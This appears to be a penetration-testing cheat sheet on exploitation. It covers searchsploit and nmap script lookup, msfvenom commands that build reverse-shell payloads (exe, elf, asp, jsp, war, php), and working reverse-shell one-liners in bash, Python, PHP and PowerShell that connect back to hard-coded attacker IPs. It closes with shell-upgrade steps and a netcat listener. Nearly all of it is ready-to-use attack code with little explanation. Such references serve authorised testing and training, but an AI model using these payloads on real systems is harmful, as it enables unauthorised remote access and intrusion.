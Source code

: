 # 💣 Exploitation

## Locating public exploits

```shell
# search for an exploit
searchsploit <name>

# show the exploit
searchsploit -x <id>

# copy the exploit to the current folder
searchsploit -m <id>

# NSE
locate .nse | grep <name>
nmap --script-help <name>
```

## Reverse Shells

> [revshells.com](https://revshells.com)

### MSFVenom

```shell
# stageless x64 shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o reverse.elf
# meterpreter staged shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o reverse.elf


msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

### One liners

```shell
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

python -c 'import 
socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

<?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.106/443 0>&1');?>

# powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.45.230",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Upgrade a Reverse Shell into a full TTY

Spawn a TTY Shell

```shell
# using Python
python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/sh")'

# if Python is not available
/bin/bash -i
script /dev/null -c bash
```

Background the shell and fix settings

```shell
# CTRL+Z
stty raw -echo; fg
```

Set terminal env variables

```shell
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 40 columns 100
```

### Better listener with rlwrap

```shell
rlwrap nc -lnvp 4444
```
